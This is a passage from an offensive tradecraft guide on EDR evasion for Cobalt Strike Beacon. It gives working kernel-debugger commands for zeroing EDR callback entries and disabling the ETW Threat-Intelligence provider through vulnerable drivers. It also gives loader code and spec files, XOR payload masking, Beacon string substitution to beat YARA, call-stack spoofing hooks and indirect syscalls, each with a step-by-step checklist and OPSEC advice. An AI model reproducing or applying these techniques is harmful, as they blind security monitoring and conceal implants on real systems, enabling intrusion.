ffffbf0f`e823bb50  00000000`00000020 fffff804`42fdaa60   ; <-- callback fn ptr
lkd> lm a fffff804`42fdaa60
fffff804`42f80000 fffff804`4301b000   WdFilter          ; Defender
```

The low four bits of each pointer store the `EX_RUNDOWN_REF` tag and must be masked before dereferencing. A callback is disabled by writing zero to its entry in the table:

```
lkd> ep fffff804`b0b04b88 0
```

#### 2.4.3 Object Callbacks (ObRegisterCallbacks)

Object callbacks are registered per object type and stored in a doubly-linked `CallbackList` attached to the `OBJECT_TYPE` structure. Pre-operation callbacks receive the requested `ACCESS_MASK` and are permitted to remove access rights before the handle is returned to the caller. This mechanism is used by EDR products to prevent handles to `lsass.exe` from being opened with `PROCESS_VM_READ`.

```c
OB_PREOP_CALLBACK_STATUS PobPreOperationCallback(
    PVOID RegistrationContext,
    POB_PRE_OPERATION_INFORMATION Info)
{
    ACCESS_MASK requested = Info->Parameters->CreateHandleInformation.OriginalDesiredAccess;
    if (requested & PROCESS_VM_READ) {
        Info->Parameters->CreateHandleInformation.DesiredAccess &= ~PROCESS_VM_READ;
    }
    return OB_PREOP_SUCCESS;
}
```

An object callback can be disabled by setting the `Active` member of the corresponding `CALLBACK_ENTRY_ITEM` to zero, or by unlinking the node from the doubly-linked list.

#### 2.4.4 Registry Callbacks (CmRegisterCallbackEx)

Registry callbacks are stored in a linked list of `CMREG_CALLBACK` structures rooted at `nt!CallbackListHead`. They are disabled using the same list-unlink or null-write technique as object callbacks.

#### Methodology

- [ ] Enumerate the callback table via kernel read (vulnerable driver). For `PspCreateProcessNotifyRoutine`, read 64 entries at the table symbol: >>
- [ ] Mask the low 4 bits of each entry, dereference to the `EX_CALLBACK_ROUTINE_BLOCK`, extract the function pointer at offset `+0x8`: >>
- [ ] Resolve the module owning that pointer. If it belongs to a known EDR (WdFilter, cyoptics, etc.), overwrite the table entry with `0`: >>
- [ ] For `ObRegisterCallbacks`: walk `ObTypeIndexTable`, find the process type, walk `CallbackList`, set `Active = 0` on entries you want silenced: >>

#### OPSEC

- Disabling a callback affects every process on the system, not only the calling process. The original table entry should be restored once the operation requiring the disabled callback has completed.
- Certain EDR products re-register their callbacks on a periodic timer. The table state should be re-verified after the operation has completed to confirm that the modification has not been reverted.
- Kernel writes require a vulnerable driver to be loaded. The driver load itself generates a load-image event visible to other sensors. The driver should be loaded immediately before use and unloaded immediately afterward.

### 2.5 ETW-TI

**Event Tracing for Windows (ETW)** is a kernel logging framework in which providers emit events and consumers subscribe to receive them. The **Microsoft-Windows-Threat-Intelligence** provider (GUID `{F4E1897C-BB5D-5668-F1D8-040F4D8DD344}`), commonly referred to as **ETW-TI**, emits high-fidelity security events that are not available through the standard kernel callback interfaces. These events include cross-process memory manipulation, thread context modification, and syscall usage from unbacked memory.

#### 2.5.1 Events Surfaced

| Event | Triggered By | Emitting Function |
|---|---|---|
| `ReadVm / WriteVm (Local, Remote)` | Cross-process calls to `ReadProcessMemory` and `WriteProcessMemory`. | `EtwTiLogReadWriteVm` |
| `ProtectExecVm` | Cross-process memory protection change to an executable value. | `EtwTiLogProtectExecVm` |
| `SetContextThread` | Modification of another thread's execution context, commonly used during injection. | `EtwTiLogSetContextThread` |
| `SyscallUsage` | A syscall issued from unbacked memory. | `EtwTiLogSyscallUsage` |
| `ImpersonateClient` | Access token impersonation. | `PsImpersonateClient` |

#### 2.5.2 Consumer Protection

ETW-TI events are only delivered to consumer processes running at the `PS_PROTECTED_ANTIMALWARE_LIGHT` protection level, which requires the consumer to be launched by an **Early Launch Anti-Malware (ELAM)** driver. ELAM driver signing is restricted to vendors participating in Microsoft's Anti-Malware program.

Community projects such as [MentalTi](https://github.com/jsecurity101/MentalTi) and JonMon work around this restriction by using a vulnerable driver to patch the consumer process's `EPROCESS.Protection` field in kernel memory, which causes the kernel to treat the process as a legitimate protected anti-malware consumer.

#### 2.5.3 Disabling the Provider

Every ETW provider is described in the kernel by a `_TRACE_ENABLE_INFO` structure. Setting the `IsEnabled` field of this structure to zero causes the provider to stop emitting events.

```
lkd> dt nt!_TRACE_ENABLE_INFO 0xffffb30ecc998a20
   +0x000 IsEnabled       : 0x1
   +0x004 Level           : 0x5
   +0x006 LoggerId        : 0
   +0x008 EnableProperty  : 0x40

lkd> eb 0xffffb30ecc998a20 0     ; flip IsEnabled to 0
```

The address of the structure is located through the chain `nt!EtwpDebuggerData` → `SiloDriverState` → hash bucket → GUID entry. The correct hash bucket is determined by applying the following formula to the provider's GUID:

```c
(Data1 ^ Data2 ^ Data4[0] ^ Data4[4]) & 0x3F

// For ETW-TI:
// (0xF4E1897C ^ 0xBB5D ^ 0xF1 ^ 0x4D) & 0x3F = 0x1D
// → ETW-TI provider is in hash bucket 29
```

#### Methodology

- [ ] Locate the ETW-TI provider hash bucket by computing the GUID hash: >>
- [ ] Walk from `nt!EtwpDebuggerData` → `SiloDriverState` → `EtwpHashTable[bucket]` → linked list of `_ETW_GUID_ENTRY`: >>
- [ ] Match the `Guid` field against the ETW-TI GUID; get `&ProviderEnableInfo` (`_TRACE_ENABLE_INFO`): >>
- [ ] Kernel-write `IsEnabled = 0`. Events stop immediately: >>

#### OPSEC

- Disabling ETW-TI prevents the emission of new events. Any events already produced before the modification remain in the sensor's collection pipeline.
- The `IsEnabled` field is a global provider setting. Per-process suppression is not exposed by the ETW API.
- Hardened EDR products that subscribe to ETW-TI from an ELAM-launched consumer may correlate a sudden absence of expected event volume as an indicator of tampering.
- The `IsEnabled` field should be restored to its original value at the conclusion of the operation to prevent long-term telemetry gaps.

## 3. Load-Time Evasion

### 3.1 Introduction

Beacon is implemented as a Windows DLL that must be loaded into memory before it can execute. Load-time evasion is concerned with placing Beacon into memory without triggering static signatures or behavioural sensors that monitor the loading process. Cobalt Strike supports replacing the default reflective loader with an operator-supplied loader via the **User-Defined Reflective Loader (UDRL)** mechanism, which provides full control over memory allocation, protection transitions, and any post-load actions the loader performs.

#### 3.1.1 Loader Styles

| Style | Origin | Trait |
|---|---|---|
| **Stomped (legacy)** | Stephen Fewer's ReflectiveDLLInjection | The loader resides within Beacon's `.text` section. Requires an exported entry function and a shellcode stub in the DOS header. Deprecated in Cobalt Strike 4.11 and later. |
| **Prepended (default)** | Based on sRDI and DoublePulsar | The loader is prepended to the DLL. No exported function or DOS header modification is required, and the appended payload can be arbitrarily obfuscated. Default from Cobalt Strike 4.11. |

#### 3.1.2 PIC Frameworks

Reflective loaders must be implemented as Position-Independent Code (PIC) so that they execute correctly at any memory address. Writing PIC directly in assembly is possible but does not scale to non-trivial loaders. Several frameworks provide higher-level abstractions for string handling, embedded resources, and Windows API resolution.

| Framework | Notes |
|---|---|
| **udrl-vs** | A Visual Studio solution included in the Cobalt Strike Arsenal Kit. Provides loader templates and a `PIC_STRING` macro. Projects can be built as console applications for debugging. |
| **Stardust** | A C++ template maintained by C5pider for writing entire implants — not only loaders — as position-independent code. |
| **Crystal Palace** | An open-source PIC framework maintained by Raphael Mudge. Provides specification files, link-time function hooking, ROR13-based API resolution, and resource appending. All Crystal Palace examples that follow use Crystal Kit as the packaging layer. |

#### OPSEC

- Prepended loaders defeat static signatures that target the reflective loader shellcode stub previously placed in the DOS header of stomped loaders. Stomped loaders should not be used in current engagements.
- Code executed by a UDRL runs from unbacked memory. All subsequent API calls inherit this call-stack origin and require complementary call-stack tradecraft to appear legitimate.

### 3.2 Simple Loader

The following is a minimal Crystal Palace loader implementation. It consists of an entry point, dynamic API resolution via ROR13 hashes, the appended-resource pattern for delivering the Beacon DLL, and a specification file that combines these components into the final position-independent output.

#### 3.2.1 Entry Point and Dynamic Function Resolution

Dynamic Function Resolution (DFR) references are declared using the `MODULE$Function` naming pattern. Crystal Palace generates ROR13 hashes for each reference at link time and rewrites the corresponding call sites to dispatch through an operator-supplied `resolve()` function.

```c
#include <windows.h>
#include "tcg.h"

DECLSPEC_IMPORT LPVOID WINAPI KERNEL32$VirtualAlloc(LPVOID, SIZE_T, DWORD, DWORD);

FARPROC resolve(DWORD mod_hash, DWORD func_hash) {
    HANDLE module = findModuleByHash(mod_hash);       // walks PEB InMemoryOrderModuleList
    return findFunctionByHash(module, func_hash);      // walks EAT
}

void go() {
    // ... loader body
}
```

| Helper | Role |
|---|---|
| `findModuleByHash` | Walks the `InMemoryOrderModuleList` of the Process Environment Block and returns the module handle whose hashed base name matches the supplied value. |
| `findFunctionByHash` | Walks the Export Address Table of the specified module and returns the address of the function whose hashed name matches the supplied value. |
| `ProcessImports` | Resolves the import table of a mapped DLL using `LoadLibraryA` and `GetProcAddress`. |
| `PicoLoad` | Loads a PICO (position-independent code object) into a supplied read-write memory region. |

#### 3.2.2 Appended Resources

Crystal Palace supports appending arbitrary binary resources to a loader by declaring named GCC sections. The loader references each resource by pointer using a zero-byte marker.

```c
/* declare a zero-byte marker in a named section */
char _DLL_[0] __attribute__((section("dll")));

#define GETRESOURCE(x) ((char*)&x)

void go() {
    char *dll_src = GETRESOURCE(_DLL_);   // pointer to appended Beacon DLL
    // ... parse and load
}
```

#### 3.2.3 Spec File & Aggressor Hook

The spec file drives Crystal Palace's linker: compile object → make PIC → append DLL → export.

```
x64:
    load "bin/loader.x64.o"
    make pic + gofirst              # gofirst pins go() at offset 0
    dfr "resolve" "ror13"           # rewrite MODULE$Function calls
    mergelib "libtcg.x64.zip"       # merge shared TCG library

    push $DLL                       # DLL is passed in from Aggressor
    link "dll"                      # link to the "dll" section marker
    export
```

The loader is registered with Cobalt Strike by defining the `BEACON_RDLL_GENERATE` Aggressor hook. The hook receives the raw Beacon DLL bytes and returns the final payload to be delivered:

```
import crystalpalace.spec.* from: crystalpalace.jar;
import java.util.HashMap;

set BEACON_RDLL_GENERATE {
    local('$beacon $arch $spec_path $spec $final');
    $beacon = $2;
    $arch   = $3;

    $spec_path = getFileProper(script_resource(), "loader.spec");
    $spec  = [LinkSpec Parse: $spec_path];
    $final = [$spec run: $beacon, [new HashMap]];

    return $final;
}
```

#### Methodology

- [ ] Declare DFR imports for every Windows API the loader touches: >>
- [ ] Build a Makefile that emits COFFs with mingw-w64: >>
- [ ] Author the spec file — `make pic + gofirst`, DFR resolution, resource push/link, export: >>
- [ ] Drop `crystalpalace.jar` next to `cobaltstrike-client.jar`, then register the Aggressor hook so Beacon payloads route through your loader.

### 3.3 Loader Modularity

Loaders can be split across multiple focused COFF files and combined at link time. Crystal Palace provides two directives for this purpose: `merge` incorporates a single object file into the loader PIC, and `mergelib` incorporates a zip archive containing multiple objects. Frequently reused components such as resolvers, hook stubs, and spoofing routines are typically packaged as libraries.

#### 3.3.1 Merging Components

```
x64:
    load "bin/loader.x64.o"
    make pic + gofirst
    load "bin/services.x64.o"       # separate resolve services
    merge                           # fold into loader PIC
    dfr "resolve" "ror13" "KERNEL32, NTDLL"
    dfr "resolve_ext" "strings"
    mergelib "../libtcg.x64.zip"
    push $DLL
    link "dll"
    export
```

#### 3.3.2 Building Libraries

A Crystal Palace library is a zip archive containing one or more compiled COFF objects. The `libtcg` Makefile compiles each source file and packages the resulting objects into the archive:

```makefile
libtcg.x64.zip: bin
	$(CC_64) -DWIN_X64 -shared -masm=intel -c src/loaddll.c     -o bin/loaddll.x64.o
	$(CC_64) -DWIN_X64 -shared -masm=intel -c src/resolve_eat.c -o bin/resolve_eat.x64.o
	$(CC_64) -DWIN_X64 -shared -masm=intel -c src/picorun.c     -o bin/picorun.x64.o
	zip -q -j libtcg.x64.zip bin/*.x64.o
```

#### 3.3.3 Nested Spec Files

One specification file can execute another via the `run` directive. This allows shared configuration — resolvers, DFR declarations, and hook registrations — to be maintained in a dedicated module and reused across loaders.

```
# services.spec
x64:
    load "bin/services.x64.o"
    merge
    mergelib "../libtcg.x64.zip"
    dfr "resolve" "ror13" "KERNEL32, NTDLL"
    dfr "resolve_ext" "strings"

# loader.spec
x64:
    load "bin/loader.x64.o"
    make pic + gofirst
    run "services.spec"
    push $DLL
    link "dll"
    export
```

#### Methodology

- [ ] Split resolve services into `services.c`, hooks into `hooks.c`, spoofing into `spoof.c`. One responsibility per file.
- [ ] Package cross-project code as a library. Ship as `libname.x64.zip`: >>
- [ ] Reference the library from the spec file with `mergelib`: >>
- [ ] Break out shared setup (resolvers, DFR declarations) into a nested spec, then `run "services.spec"` from the loader spec.

### 3.4 Removing RWX Memory

A minimal loader typically allocates a single memory region with `PAGE_EXECUTE_READWRITE` protection. This is one of the strongest indicators of injected shellcode observable to an EDR product. The recommended approach is to allocate the region as `PAGE_READWRITE`, copy the DLL and process relocations, and then apply the correct final protection to each PE section using `VirtualProtect`.

```c
DECLSPEC_IMPORT BOOL WINAPI KERNEL32$VirtualProtect(LPVOID, SIZE_T, DWORD, PDWORD);

void fix_section_permissions(DLLDATA *dll, char *src, char *dst) {
    DWORD count = dll->NtHeaders->FileHeader.NumberOfSections;
    IMAGE_SECTION_HEADER *hdr = (IMAGE_SECTION_HEADER *)PTR_OFFSET(
        dll->OptionalHeader,
        dll->NtHeaders->FileHeader.SizeOfOptionalHeader);

    for (int i = 0; i < count; i++) {
        void *sec_dst  = dst + hdr->VirtualAddress;
        DWORD sec_size = hdr->SizeOfRawData;
        DWORD new_prot = PAGE_READONLY, old_prot = 0;

        if (hdr->Characteristics & IMAGE_SCN_MEM_EXECUTE) new_prot = PAGE_EXECUTE_READ;
        else if (hdr->Characteristics & IMAGE_SCN_MEM_WRITE) new_prot = PAGE_READWRITE;

        KERNEL32$VirtualProtect(sec_dst, sec_size, new_prot, &old_prot);
        hdr++;
    }
}
```

| Section | Characteristics | Target Protection |
|---|---|---|
| `.text` | `IMAGE_SCN_MEM_EXECUTE` | `PAGE_EXECUTE_READ` |
| `.data`, `.bss` | `IMAGE_SCN_MEM_WRITE` | `PAGE_READWRITE` |
| `.rdata`, `.rsrc` | Read-only | `PAGE_READONLY` |

#### Methodology

- [ ] Allocate the DLL region as `PAGE_READWRITE`, never `PAGE_EXECUTE_READWRITE`: >>
- [ ] After copying sections + processing relocations + resolving imports, walk section headers and set each to its correct protection with `VirtualProtect`.
- [ ] Verify with Process Hacker / SystemInformer — no RWX regions should show against the process.

#### OPSEC

- Allocations of `PAGE_EXECUTE_READWRITE` memory are inexpensive for an EDR to detect through a user-mode hook on `NtAllocateVirtualMemory`. This allocation pattern should not appear in operational tradecraft.
- Transitions from `PAGE_READWRITE` to `PAGE_EXECUTE_READ` are logged by ETW-TI as `ProtectExecVm` events. Such transitions should occur once during the loader's execution, prior to Beacon becoming active, and should not be repeated at runtime.

### 3.5 Optimisations & Obfuscations

Crystal Palace provides link-time transforms that mutate the final PIC output. These transforms break byte-level signatures without altering runtime behaviour and are applied per build.

#### 3.5.1 Common Transforms

| Directive | Effect |
|---|---|
| `make pic + gofirst` | Convert COFF to PIC and pin the `go` function at offset 0. |
| `make pic + disco` | Randomise function order (`disco` = disorder). |
| `disassemble "out.txt"` | Dump the current PIC disassembly for inspection. |
| `patch "sym" $VAL` | Overwrite a named symbol with a value — useful for XOR keys. |
| `generate $KEY 128` | Generate a 128-byte random key into `$KEY`. |

#### 3.5.2 Function Reordering Example

```
# Before (natural COFF order):
0x000 <go>
0x167 <resolve>
0x198 <loaderStart>
0x1A5 <fix_section_permissions>
...

# After 'make pic + disco':
0x000 <go>                  # pinned by +gofirst
0x167 <ProcessImports>
0x1DB <loaderStart>
0x1E8 <LoadDLL>
...
```

#### Methodology

- [ ] Add `+disco` to the `make pic` line to randomise function layout on every build: >>
- [ ] Use `disassemble` during development to confirm layout changes: >>
- [ ] Generate and patch a random per-build XOR key for masking: >>

### 3.6 Resource Masking

Link-time optimisations apply only to the loader PIC. The appended Beacon DLL remains recognisable as a PE, retaining its `MZ` header, DOS stub message, and other identifying features. Resource masking XORs the appended DLL bytes on disk and unmasks them into a temporary memory buffer immediately before parsing.

```c
char _DLL_ [0]  __attribute__((section("dll")));
char _MASK_[0]  __attribute__((section("mask")));

typedef struct { int len; char value[]; } RESOURCE;

void go() {
    RESOURCE *masked_dll = (RESOURCE *)GETRESOURCE(_DLL_);
    RESOURCE *mask_key   = (RESOURCE *)GETRESOURCE(_MASK_);

    /* temporary RW buffer for the unmasked DLL */
    char *dll_src = KERNEL32$VirtualAlloc(NULL, masked_dll->len,
        MEM_COMMIT | MEM_RESERVE | MEM_TOP_DOWN, PAGE_READWRITE);

    for (int i = 0; i < masked_dll->len; i++) {
        dll_src[i] = masked_dll->value[i] ^ mask_key->value[i % mask_key->len];
    }

    /* parse and load as before, then free the temporary buffer */
    KERNEL32$VirtualFree(dll_src, 0, MEM_RELEASE);
}
```

#### Methodology

- [ ] Add a `mask` section and length-prepended `RESOURCE` parsing in the loader.
- [ ] Generate the XOR key in the spec file, XOR the DLL, push both: >>
- [ ] Free the temporary RW buffer with `VirtualFree` once the DLL has been fully loaded into its final region.

#### OPSEC

- Static disk scans encounter only the XOR-masked bytes. No PE magic values or Beacon strings are recoverable from the payload on disk.
- The unmasked DLL is present in the temporary read-write buffer for a short period. Memory scanners can identify it during this window unless runtime memory obfuscation is also in use (see §4.4).

### 3.7 Static Signatures

Once the Beacon DLL has been unmasked and loaded into its final memory region, in-memory string and byte-sequence signatures become applicable. YARA-style scanners target known error message strings, hardcoded format strings, and specific opcode sequences within the reflective loader body.

Malleable C2 provides the `stage.transform.strrep` directive for replacing strings within Beacon at generation time, but this directive is only applied when the default reflective loader is used. When a custom UDRL is in use, equivalent string replacement must be performed in Aggressor before the DLL is passed to Crystal Palace.

```
sub strrep_pad {
    local('$dll $orig $new $orig_len $new_len $diff $pad');
    $dll  = $1; $orig = $2; $new = $3;
    $orig_len = strlen($orig);
    $new_len  = strlen($new);
    $diff = $orig_len - $new_len;

    # pad the replacement so the DLL layout is preserved
    if ($diff > 0) { $pad = strrep($new . str_rep("\x00", $diff), "", ""); }
    else           { $pad = $new; }

    return strrep($dll, $orig, $pad);
}

set BEACON_RDLL_GENERATE {
    local('$beacon $arch');
    $beacon = $2; $arch = $3;

    $beacon = strrep_pad($beacon, "beacon.x64.dll",   "bacon.x64.dll");
    $beacon = strrep_pad($beacon, "%02d/%02d/%02d",   "%02d/%02d/%04d");
    $beacon = strrep_pad($beacon, "%s as %s\\%s: %d", "%s - %s\\%s (%d)");

    # then run through the spec file as before
    return runSpec($beacon);
}
```

#### Methodology

- [ ] Run YARA against a stock Beacon DLL. Note every matching rule: >>
- [ ] For each matched string, write a `strrep_pad` substitution in `BEACON_RDLL_GENERATE`.
- [ ] For matched byte sequences (loader opcodes), replace them with equivalent instructions of the same length via `strrep_pad` at the byte level.
- [ ] Re-run YARA on the transformed DLL — zero matches, or you're not done.

### 3.8 Applying Evasive Tradecraft

Crystal Palace provides the `attach` directive to redirect DFR references at link time. The loader is authored with unmodified Windows API calls, and evasion techniques such as call stack spoofing or syscalls are substituted during linking. This allows the underlying tradecraft to be replaced without modifying the loader source.

#### 3.8.1 Hook Wrappers

```c
DECLSPEC_IMPORT LPVOID WINAPI KERNEL32$VirtualAlloc(LPVOID, SIZE_T, DWORD, DWORD);

LPVOID WINAPI _VirtualAlloc(LPVOID lpAddress, SIZE_T dwSize, DWORD flAlloc, DWORD flProt) {
    FUNCTION_CALL call = {0};
    call.function = (PVOID)(KERNEL32$VirtualAlloc);
    call.argc     = 4;
    call.args[0]  = (ULONG_PTR)lpAddress;
    call.args[1]  = (ULONG_PTR)dwSize;
    call.args[2]  = (ULONG_PTR)flAlloc;
    call.args[3]  = (ULONG_PTR)flProt;
    return (LPVOID)spoof_call(&call);   // proxied through Draugr / gadget frame
}
```

#### 3.8.2 Attach in the Spec File

```
x64:
    load "bin/loader.x64.o"
    make pic + gofirst

    load "bin/hooks.x64.o"
    merge

    # redirect every DFR reference to the hook
    attach "KERNEL32$VirtualAlloc"   "_VirtualAlloc"
    attach "KERNEL32$VirtualProtect" "_VirtualProtect"
    attach "KERNEL32$LoadLibraryA"   "_LoadLibraryA"

    export
```

#### 3.8.3 Gadget Selection

Call stack spoofing requires a `jmp qword ptr [rbx]` gadget, or its `rdi`/`rsi` equivalent, located within a loaded module. An additional constraint is that the gadget must be preceded by a `call` instruction; sensors that verify the instruction immediately preceding each return address treat gadgets that lack a preceding `call` as anomalous.

A survey of Windows 11 24H2 `System32` DLLs identified 13 `rbx`, 8 `rdi`, and 3 `rsi` gadgets meeting these criteria. None of these gadgets reside in DLLs that are loaded into every process by default, so a suitable module such as `dfshim.dll` must be loaded on demand through the proxy technique.

```c
/* preserve directive prevents recursion when the gadget-loading LoadLibrary itself gets hooked */
frame->Gadget = LoadLibraryA("dfshim.dll");
```

```
preserve "KERNEL32$LoadLibraryA" "init_frame_info"
```

#### Methodology

- [ ] Write hook wrappers for every noisy API the loader calls (`VirtualAlloc`, `VirtualProtect`, `LoadLibraryA`). Each wraps the real call in `spoof_call()`.
- [ ] Merge the hooks COFF and attach every target DFR: >>
- [ ] Enumerate gadgets in loaded modules. Filter for those preceded by `call` (opcode `0xE8`): >>
- [ ] Load a gadget-rich DLL (`dfshim.dll`) on demand and `preserve` the `LoadLibraryA` call inside `init_frame_info` to prevent hook recursion.

#### OPSEC

- Vendor-specific detections have begun to target common gadget-source modules. Elastic now issues an alert titled "Stack Spoofing via ROP Gadget for DLL Load" when `dfshim.dll` is observed in the call stack. Gadget source modules should be rotated between engagements and dynamic gadget discovery should be considered where possible.
- The `init_frame_info` function executes for every hooked API call. The resolved gadget should be cached after first use by calling `GetModuleHandleA` first and falling back to `LoadLibraryA` only when the module is not already loaded.
- Because `attach` is applied at link time, the loader source contains no reference to the spoofing primitives. The resulting binary differs significantly between builds, which reduces the effectiveness of byte-level signatures derived from a single sample.

## 4. Runtime Evasion

### 4.1 Introduction

Load-time evasion covers the process of placing Beacon into memory. Runtime evasion covers the subsequent lifetime of the implant. Two categories of detection remain relevant during this period: unbacked API calls issued by Beacon's C2 thread, and static signatures within the Beacon DLL body that memory scanners can identify while the implant is sleeping between check-ins.

Cobalt Strike provides two native mechanisms for these problems. **Sleepmask** obfuscates Beacon's memory during sleep intervals. **BeaconGate** routes Beacon's API calls through the sleepmask so that evasion tradecraft can wrap them. When the standard Cobalt Strike kits are not in use, equivalent functionality is implemented by loading a Crystal Palace **PICO** alongside Beacon that provides the hooks and evasion primitives.

| Feature | Cobalt Strike Native | Crystal Palace Equivalent |
|---|---|---|
| Memory obfuscation during sleep | Sleepmask kit | A `Sleep` hook within the PICO that XOR-masks all tracked memory regions for the duration of the sleep. |
| API call proxy | BeaconGate | Interception of Beacon's `GetProcAddress` combined with the Draugr call stack spoofing stub. |
| Runtime cleanup | Not provided by default | An `ExitThread` hook that schedules `VirtualFree` operations via a timer queue. |

### 4.2 Call Stacks

Beacon's own API surface — network I/O, sleep, and injection — is the primary source of unbacked call stack telemetry after loading has completed. These calls can be intercepted at Beacon's Import Address Table by combining Crystal Palace's `addhook` directive with an interposed `GetProcAddress`.

#### 4.2.1 The _GetProcAddress Intercept

Rather than patching each call site individually, Beacon's `GetProcAddress` is replaced with a wrapper function that returns a pointer to the hook implementation when a registered target function is requested. Crystal Palace generates the ROR13 hash lookup table at link time based on the `addhook` directives in the specification file.

```c
FARPROC WINAPI _GetProcAddress(HMODULE hModule, LPCSTR lpProcName) {
    /* ordinals pass through unchanged */
    if (((ULONG_PTR)lpProcName >> 16) == 0) {
        return GetProcAddress(hModule, lpProcName);
    }

    /* look up a hook for this function name */
    FARPROC hook = __resolve_hook(ror13hash(lpProcName));
    if (hook != NULL) return hook;

    return GetProcAddress(hModule, lpProcName);
}
```

#### 4.2.2 Loading the PICO

```c
char _PICO_[0] __attribute__((section("pico")));

typedef struct { char data[4096]; char code[16384]; } PICO;

int __tag_setup_hooks();
typedef void (*SETUP_HOOKS)(IMPORTFUNCS *funcs);

void go() {
    IMPORTFUNCS funcs = {0};
    funcs.LoadLibraryA  = LoadLibraryA;
    funcs.GetProcAddress = GetProcAddress;

    char *pico_src = GETRESOURCE(_PICO_);
    PICO *pico_dst = (PICO *)KERNEL32$VirtualAlloc(NULL, sizeof(PICO),
        MEM_COMMIT | MEM_RESERVE | MEM_TOP_DOWN, PAGE_READWRITE);

    PicoLoad(&funcs, pico_src, pico_dst->code, pico_dst->data);

    /* transition code section to RX */
    DWORD old_prot;
    KERNEL32$VirtualProtect(pico_dst->code, PicoCodeSize(pico_src),
        PAGE_EXECUTE_READ, &old_prot);

    /* call setup_hooks — this replaces funcs.GetProcAddress with _GetProcAddress */
    SETUP_HOOKS setup = (SETUP_HOOKS)PicoGetExport(pico_src, pico_dst->code,
        __tag_setup_hooks());
    setup(&funcs);

    /* now load Beacon using the hooked funcs — every API Beacon resolves goes through us */
}
```

#### 4.2.3 PICO Spec

```
x64:
    load "bin/pico.x64.o"
    make object                    # PICO, not PIC

    load "bin/hooks.x64.o"
    merge
    load "bin/spoof.x64.o"
    merge
    load "bin/draugr.x64.bin"
    linkfunc "draugr_stub"
    mergelib "../libtcg.x64.zip"

    exportfunc "setup_hooks" "__tag_setup_hooks"

    # add as many hooks as needed
    addhook "WININET$InternetConnectA" "_InternetConnectA"
    addhook "KERNEL32$Sleep"           "_Sleep"
    addhook "KERNEL32$VirtualAlloc"    "_VirtualAlloc"

    export
```

#### 4.2.4 High-Value Hook Targets

| Category | APIs Worth Hooking |
|---|---|
| C2 traffic | `InternetOpenA`, `InternetConnectA`, `HttpSendRequestA`, `WinHttpSendRequest` |
| Memory | `VirtualAlloc`, `VirtualAllocEx`, `VirtualProtect`, `VirtualFree`, `MapViewOfFile` |
| Threads/Processes | `CreateThread`, `CreateRemoteThread`, `OpenProcess`, `OpenThread`, `GetThreadContext`, `SetThreadContext`, `DuplicateHandle` |
| Sleep/Cleanup | `Sleep`, `ExitThread` |
| Module loading | `LoadLibraryA`, `LoadLibraryW`, `LoadLibraryExW` |

#### Methodology

- [ ] Author `_GetProcAddress` in the PICO — falls through to real `GetProcAddress` when no hook matches.
- [ ] Add hook wrappers to `hooks.c` — each proxies through `spoof_call()`: >>
- [ ] In the loader, populate `IMPORTFUNCS`, call `PicoLoad`, transition to RX, call `setup_hooks(&funcs)` so Beacon's own `GetProcAddress` becomes the interceptor.
- [ ] Register each hook in the spec file: >>

### 4.3 Indirect Syscalls

Hook wrappers dispatch to the real Win32 API, which resolves to user-mode code in `KernelBase` where an EDR product may still have installed inline hooks. Issuing an indirect syscall from within the hook wrapper avoids user-mode instrumentation while preserving the `ntdll` frames that a call stack spoof produces.

#### 4.3.1 Resolve Interface

```c
typedef struct {
    PVOID gate;      /* address of syscall instruction inside ntdll */
    DWORD ssn;       /* system service number */
} SYSCALL;

BOOL resolve_syscall(SYSCALL *syscall, PVOID ntdll, PVOID fn);
void prepare_syscall();
NTSTATUS do_syscall();
```

The `resolve_syscall` function walks the body of the specified `Nt*` function using the Hell's, Halo's, or Tartarus' Gate techniques (§2.2.5) to extract both the system service number and the address of the `syscall` instruction.

#### 4.3.2 Hook and Syscall Integration

```c
#include "syscalls.h"

#define NTDLL_HASH                    0x3CFA685D
#define NTALLOCATEVIRTUALMEMORY_HASH  0xD33BCABD

LPVOID WINAPI _VirtualAlloc(LPVOID lpAddress, SIZE_T dwSize, DWORD flAlloc, DWORD flProt) {
    PVOID ntdll = findModuleByHash(NTDLL_HASH);
    PVOID ntavm = findFunctionByHash(ntdll, NTALLOCATEVIRTUALMEMORY_HASH);

    SYSCALL sc = {0};
    if (!resolve_syscall(&sc, ntdll, ntavm)) {
        return KERNEL32$VirtualAlloc(lpAddress, dwSize, flAlloc, flProt);  /* fallback */
    }

    /* build args for NtAllocateVirtualMemory, then do the syscall through the spoof stub */
    FUNCTION_CALL call = {0};
    call.ptr  = sc.gate;
    call.ssn  = sc.ssn;
    /* ... populate call.args ... */
    return (LPVOID)spoof_call(&call);
}
```

#### 4.3.3 Draugr Stub Extension

The Draugr assembly stub must be extended to load the system service number into `eax` and to transfer control to the syscall gate. This requires additional fields on the parameters structure passed to the stub:

```nasm
; inside draugr_stub, before the target call
    mov r10, rcx
    mov rax, [rdi + 72]      ; DRAUGR_PARAMETERS.Ssn
```

```c
typedef struct {
    PVOID  Fixup;                            /* 0  */
    PVOID  OriginalReturnAddress;            /* 8  */
    PVOID  Rbx;                              /* 16 */
    PVOID  Rdi;                              /* 24 */
    /* ... */
    PVOID  Ssn;                              /* 72 */
} DRAUGR_PARAMETERS;

typedef struct {
    PVOID     ptr;
    DWORD     ssn;      /* new — passed through to draugr_params.Ssn */
    int       argc;
    ULONG_PTR args[10];
} FUNCTION_CALL;
```

#### Methodology

- [ ] Drop a syscall resolver (e.g. RecycledGate) into `syscalls.c`: >>
- [ ] Add `ssn` to `FUNCTION_CALL` and `Ssn` to `DRAUGR_PARAMETERS`. Update `draugr_wrapper` to accept and set it.
- [ ] Extend the Draugr stub to load SSN into `eax`: >>
- [ ] In each hook, resolve the syscall for the target `Nt*` function and populate `call.ptr`/`call.ssn`. Fall back to the standard API on resolve failure.

#### OPSEC

- Resolving syscall parameters at every hook invocation is unnecessary. The `SYSCALL` structure should be cached per target function after first resolution.
- An indirect syscall combined with a spoofed call stack still terminates in the PICO rather than in Beacon's original caller. The final frames of the constructed stack should be verified to end plausibly.

### 4.4 Memory Obfuscation

During sleep intervals between check-ins, Beacon's memory resides in read-execute pages and is recoverable by any memory scanner that inspects the process. The standard sleepmask approach is to hook `Sleep`, transition each tracked memory region to `PAGE_READWRITE`, apply an XOR mask, call the real `Sleep`, remove the mask on wake, and restore the original page protection.

#### 4.4.1 Memory Tracking Struct

```c
typedef struct {
    PVOID  BaseAddress;
    SIZE_T Size;
    DWORD  CurrentProtect;
    DWORD  PreviousProtect;
} MEMORY_SECTION;

typedef struct {
    PVOID           BaseAddress;
    SIZE_T          Size;
    MEMORY_SECTION  Sections[8];   /* .text, .rdata, .data, .pdata, ... */
} MEMORY_REGION;

